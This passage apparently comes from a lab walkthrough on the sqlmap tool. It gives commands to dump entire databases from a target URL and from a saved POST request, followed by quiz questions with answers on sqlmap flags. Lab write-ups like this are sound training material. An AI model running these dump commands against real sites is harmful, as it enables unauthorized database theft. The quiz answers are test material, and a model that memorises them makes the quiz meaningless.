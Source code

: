 `sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`  

  
**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-all`  
  
`sqlmap -r req.txt-p  -D <database_name> --dump-all`  

####   

I hope you have enjoyed seeing the basics of using sqlmap and its various commands. Now, let’s start the challenge in the next task!

Answer the questions below

Which flag or option will allow you to add a URL to the command?

*-u*

Which flag would you use to add data to a POST request?

*--data*

There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack?

*-p username*

Which flag would you use to show the advanced help menu?

*-hh*

Which flag allows you to retrieve everything?

*-a*

Which flag allows you to select the database name?

*-D*

Which flag would you use to retrieve database tables?

*--tables*

Which flag allows you to retrieve a table’s columns?  

*--columns*

Which flag allows you to dump all the database table entries?

*--dump-all*

Which flag will give you an interactive SQL Shell prompt?

Use advance help

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -hh  
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
```